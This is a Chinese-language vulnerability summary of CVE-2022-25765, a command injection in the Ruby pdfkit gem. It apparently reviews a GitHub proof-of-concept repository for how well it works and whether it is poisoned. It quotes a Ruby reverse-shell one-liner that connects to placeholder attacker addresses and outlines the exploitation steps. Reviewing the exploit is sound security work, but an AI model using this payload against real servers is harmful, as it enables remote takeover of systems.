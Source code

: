 ## CVE-2022-25765-pdfkit-命令注入

**漏洞编号:** CVE-2022-25765

**漏洞类型:** 命令注入

**影响应用:** pdfkit

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** < 0.8.6 (实际上已修复的版本存在绕过，需要关注)

**利用条件:** 需要应用程序使用pdfkit处理不受信任的URL输入

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2022-25765是pdfkit gem中的一个命令注入漏洞。根据漏洞库信息和搜索结果，该漏洞是由于`pdfkit`没有正确地过滤URL输入导致的。攻击者可以通过在URL中注入恶意命令，从而在服务器上执行任意代码。

**有效性：**
提供的POC代码看起来有效。它演示了如何使用`curl`向目标地址发送包含恶意URL的POST请求。恶意URL利用ruby的`spawn`函数建立反向shell连接。

**投毒风险：**
查看提供的`/tmp/4a8560a36ca2bab047251d985ac038b9/README.md`文件内容。虽然文件主要提供的是漏洞利用说明和POC，但仍存在一定的投毒风险。 主要风险点在于利用代码中 `ruby -rsocket -e'spawn("sh",[:in,:out,:err]=TCPSocket.new("LOCAL-ADDRESS",LOCAL-PORT))` ，
1. 如果攻击者诱导用户使用修改后的POC，将`LOCAL-ADDRESS`和`LOCAL-PORT`替换为攻击者控制的服务器，则可能使用户暴露在被攻击的风险中。
2. `screen1.png`和`screen.2.png` 这两个图片文件, 存在图片隐写后门的可能性. 需要进一步分析确定是否存在恶意代码。

因此，综合来看，虽然主要功能是提供漏洞利用信息，但该仓库存在一定的投毒风险，估计在10%左右。

**利用方式：**
利用方式主要包括以下几个步骤：
1.  攻击者找到一个使用`pdfkit`处理URL的应用程序。
2.  攻击者构造一个包含恶意命令的URL，并将其作为参数传递给`pdfkit`。
3.  `pdfkit`在生成PDF时，会执行URL中的恶意命令，从而导致命令注入。

具体来说，POC代码演示了通过POST请求的`url`参数传递恶意URL。恶意URL利用Ruby代码建立反向shell，从而使攻击者可以远程控制服务器。需要注意的是，POC中的`LOCAL-ADDRESS`和`LOCAL-PORT`需要替换为攻击者的IP地址和端口号。

**项目地址:** [shamo0/PDFkit-CMD-Injection](https://github.com/shamo0/PDFkit-CMD-Injection)

**漏洞详情:** [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)